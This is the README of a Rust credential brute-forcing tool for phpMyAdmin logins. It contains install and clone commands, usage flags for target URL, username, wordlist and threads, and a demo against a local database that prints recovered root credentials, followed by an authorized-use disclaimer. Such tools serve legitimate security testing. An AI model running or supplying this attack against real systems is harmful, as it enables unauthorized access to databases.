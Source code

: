 # phpmyadmin_bruteforce

## Rust installation 

1. On windows and linux:

```
https://www.rust-lang.org/tools/install
```

2. Once Rust is installed

```
git clone https://github.com/lemercierT/phpmyadmin_bruteforce.git
cd phpmyadmin_bruteforce/pma_bruteforcer/target/debug/
```

3. Example usage
```
[Usage]
.\pma_login_bruteforcer.exe -- --url http://xxxx/phpmyadmin
                               --pma_username xxxx
                               --wordlist Your/wordlist/path
                               --threads 0-125 (recommended)
                               --time-out (used with ms)
``` 

4. For the test I used it against my local database.

For the test I changed my local database password to "IamASecureKey123@!" at the 4959 place of the passlist.txt wordlist.

In less than 30s we obtained :
```
$ ./pma_login_bruteforcer.exe --url http://127.0.0.1/phpmyadmin --pma_username root --wordlist ../../passlist.txt --threads 100
[+] Found creds root:IamASecureKey123@!
```

## Disclaimer
The phpmyadmin_bruteforce tool is intended solely for educational purposes and authorized security testing. The use of this software to attempt unauthorized access to any systems, networks, or data without the explicit consent of the system owner is illegal and may result in severe civil and/or criminal penalties.

The author of this tool, including contributors and any affiliated parties, assumes no responsibility for any misuse or damages caused by the use of this tool. By using this tool, you agree to only use it in compliance with all applicable local, national, and international laws.

Always ensure that you have explicit permission from the owner before testing any system's security.

Use responsibly.


